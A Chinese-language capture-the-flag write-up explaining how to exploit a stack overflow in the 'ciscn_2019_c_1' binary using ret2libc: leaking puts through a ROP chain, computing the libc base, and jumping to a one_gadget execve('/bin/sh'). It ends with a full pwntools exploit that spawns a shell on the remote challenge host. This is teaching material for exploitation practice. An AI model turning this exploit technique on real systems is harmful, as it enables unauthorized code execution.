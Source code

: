 首先还是看一下安全机制

![image-20200521213720001](https://static.hack1s.fun/images/2021/02/06/image-20200521213720001.png)

是个64位程序，开了NX

运行的时候是一个加密解密的程序

![image-20200521213626806](https://static.hack1s.fun/images/2021/02/06/image-20200521213626806.png)

选择加密的话可以返回密文，但是选择解密会告诉你让你自己解

拖到IDA看一看

main函数代码反编译的挺清晰

![image-20200521214208274](https://static.hack1s.fun/images/2021/02/06/image-20200521214208274.png)

这里在加密时输入的内容比较长的话会出现段错误

![image-20200521215200612](https://static.hack1s.fun/images/2021/02/06/image-20200521215200612.png)

encrypt函数这里s数组在输入时可能会溢出

![image-20200521215620358](https://static.hack1s.fun/images/2021/02/06/image-20200521215620358.png)

但是这次的程序里没有找到之前那几个题目里面那样可以直接得到shell或者是直接读flag的函数

所以需要ROP的技巧

查看got和plt表，发现没有exec和system之类的函数，所以不是简单的返回到代码段就可以做出来

这道题需要用ret2libc来做

1. 泄漏出某个函数的地址
2. 通过这个地址计算出libc的基址
3. 计算`system('/bin/sh')`的地址
4. 再次溢出，跳到system函数得到shell



可以看到这个encrypt函数没有对s的输入长度进行限制，如果我们希望溢出的话，首先要覆盖50h长度到达rbp，之后覆盖8个字节，即64位的rbp，最后是返回地址

payloads大概是这样的:

```python
payloads = 'a'*0x50 + 'a'*0x8 + ret_addr
```



逆向代码中看到调用了puts，所以首先可以利用这个puts函数泄漏libc的基地址

64位程序传递参数时，如果参数少于7个，会依次放在rdi、rsi、rdx、rcx、r8、r9中

后面的参数才会放在栈中

所以首先要获取到的gadget就是能从栈中将数据传入到rdi的

![image-20200522173556823](https://static.hack1s.fun/images/2021/02/06/image-20200522173556823.png)

通过ROPgadget获取到`pop rdi`的地址



泄漏puts地址的思路主要是通过rop运行puts函数，同时控制参数使得输出的内容是puts在got表中的真实值，这样就可以输出puts在内存中的实际地址

```python
payloads = 'a'*0x58 + pop_rdi + puts_got + puts_plt + start
```

这里面加入这一个start，是希望在执行完`pop rdi; ret`的时候能够回到程序开始的位置



但是实际上，构造好了payload之后，在encrypt函数return之前，对数组s进行了一个操作，就是上面逆向代码中循环的部分，好在这个操作不是很难，直接是通过ascii对字符简单的异或，因此我们的payload在发送之前也经过一个对应的解密操作就可以了



获取到puts的真实地址后就可以计算出实际的libc基地址

之后利用one_gadget搜索这个给定的libc中存在的`execve("/bin/sh")`

![image-20200625064345899](https://static.hack1s.fun/images/2021/02/06/image-20200625064345899.png)

测试之后第二个地址是可以使用的，另外两个都会崩溃

通过偏移计算出对应的实际地址

最后再一次执行main函数，溢出到这个位置即可

```python
from pwn import *

def encrypt(s):
    s = ord(s)
    if s<=96 or s>122:
        if s<=64 or s >90:
            if s>47 and s<=57:
                return chr(s^0xf)
            else:
                return chr(s)
        else:
            return chr(s^0xe)
    else:
        return chr(s^0xd)

#io = process('./ciscn_2019_c_1')
io = remote('node3.buuoj.cn','27487')
elf = ELF('./ciscn_2019_c_1')

libc = ELF('./libc-2.27.so')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
start = elf.sym['main']

pop_rdi = 0x400c83
# pop rdi; ret

payloads1 = 'a'*0x50 + 'a'*0x8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(start)
payloads1 = ''.join([encrypt(x) for x in payloads1])


io.sendlineafter('Input your choice!\n','1')
io.sendlineafter('encrypted\n',payloads1)

io.recvuntil('Ciphertext\n')
io.recvuntil('\n')

puts_real = u64(io.recvuntil('\n',drop=True).ljust(8,'\x00'))

print(puts_real)

libc_base = puts_real - libc.sym['puts']

execve_real = libc_base+ 0x4f322
# 0x4f2c5 
# 0x4f322
# 0x10a38c

io.sendlineafter('Input your choice!\n','1')

payloads2 = 'a'*0x58 + p64(execve_real)
io.sendlineafter('encrypted\n',payloads2)
io.recv()
io.interactive()
```

